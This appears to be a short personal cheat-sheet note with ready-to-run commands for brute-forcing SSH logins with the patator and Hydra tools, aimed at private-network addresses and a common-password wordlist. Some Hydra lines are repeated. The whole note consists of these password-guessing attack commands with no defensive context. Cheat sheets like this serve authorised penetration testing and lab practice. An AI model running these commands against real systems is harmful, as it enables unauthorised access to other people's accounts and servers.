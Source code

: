 # Hydra alternative patator from : https://github.com/lanjelot/patator

## bruteforce a lot of services or example ssh
```cheat patator ssh login
patator ssh_login host=10.10.10.x port=22022 user=admin password=FILE0 0=/usr/share/seclists/Passwords/common-credentials/best1050.txt
```


##Hydra


```cheat
hydra -l root -p admin 192.168.1.105 -t 4 ssh
hydra -L user.txt -P passwords.txt 192.168.1.105 ssh

hydra -l root -p admin 192.168.1.105 -t 4 ssh
hydra -L user.txt -P passwords.txt 192.168.1.105 ssh
```

tags: #ssh #hydra #patator #bruteforce #christian 
